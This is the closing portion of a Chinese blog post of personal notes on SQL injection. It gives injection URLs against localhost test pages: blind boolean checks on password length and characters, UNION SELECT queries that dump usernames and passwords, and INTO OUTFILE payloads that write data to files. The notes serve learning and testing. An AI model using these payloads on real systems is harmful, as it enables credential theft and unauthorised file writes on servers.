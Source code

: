 只要我们建表与存储进程返回的字段相定义相等就能够执行！达到写表的效果,一步步达到我们想要的信息！


本表查询：
```
http://127.0.0.1/injection/user.php?username=angel' and LENGTH(password)='6
http://127.0.0.1/injection/user.php?username=angel' and LEFT(password,1)='m
```

Union联合语句：
```
http://127.0.0.1/injection/show.php?id=1' union select 1,username,password from user/*
http://127.0.0.1/injection/show.php?id=' union select 1,username,password from user/*
```

导出文件：
```
http://127.0.0.1/injection/user.php?username=angel' into outfile 'c:/file.txt
http://127.0.0.1/injection/user.php?username=' or 1=1 into outfile 'c:/file.txt
http://127.0.0.1/injection/show.php?id=' union select 1,username,password from user into outfile 'c:/user.txt
```



## 说明

文章属于整理类,只是作为后面观看时候的一个笔记.

[欢迎评论，欢迎指正,转载也请注明出处.](https://wangkun19930608.github.io/technology/inject/2018/08/15/inject1/)

### 参考文章

[SQL注入语句大全](https://blog.csdn.net/zzq19860626/article/details/10220427)

[代码注入_百度百科](https://baike.baidu.com/item/%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5/6868095)

### 版本说明

20180815 开始着手文章

20180815 文章完成时间






